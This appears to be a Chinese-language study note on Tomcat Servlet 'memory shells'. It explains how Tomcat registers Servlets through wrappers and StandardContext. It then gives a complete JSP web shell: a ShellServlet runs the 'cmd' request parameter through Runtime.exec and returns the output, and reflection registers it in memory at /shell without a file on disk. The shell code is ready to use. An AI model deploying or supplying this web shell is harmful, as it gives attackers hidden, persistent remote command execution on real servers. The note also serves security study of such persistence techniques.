 # Tomcat-Servlet内存马

## 前言

开始Servlet内存马的学习，没看明白。。。简单记录一下网上文章的思路。以后有空了再回来深入了解一下。



## Servlet的流程

Servlet的编写肯定不用说，关键的问题就在于怎么注册一个Servlet。

和Servlet注册有关的是wrapper。

在`StandardContext#startInternal()`中，这里获取所有的wrapper，然后调用`loadOnStartup`：

```java
    public Container[] findChildren() {
        synchronized(this.children) {
            Container[] results = new Container[this.children.size()];
            return (Container[])this.children.values().toArray(results);
        }
    }
```

`loadOnStartup`中在这里进行了wrapper的装载：

![image-20220313182017839](Tomcat-Servlet内存马.assets/image-20220313182017839.png)



之后在`ContextConfig#configureContext`中，用于创建wrapper：

![image-20220313182126107](Tomcat-Servlet内存马.assets/image-20220313182126107.png)

主要是这四个方法的设置：

```java
newWrapper.setName(name);
newWrapper.setLoadOnStartup(1);
newWrapper.setServlet(servlet);
newWrapper.setServletClass(servlet.getClass().getName());
```

最后加入到`child`中：

```java
            wrapper.setOverridable(servlet.isOverridable());
            this.context.addChild(wrapper);
```

再通过`context.addServletMappingDecoded()`进行路径映射。

因此构造：

```java
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%!

    public class ShellServlet extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            super.doPost(req, resp);
        }

        @Override
        protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd!=null){
                String[] cmds = {"cmd","/c",req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    resp.getWriter().println(outputStream.toString());
                }
            }
        }
    }

%>
<%
    Servlet servlet = new ShellServlet();
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext)req.getContext();
    Wrapper wrapper = context.createWrapper();
    wrapper.setName("shell");
    wrapper.setServlet(servlet);
    context.addChild(wrapper);
    context.addServletMappingDecoded("/shell","shell");

%>
```


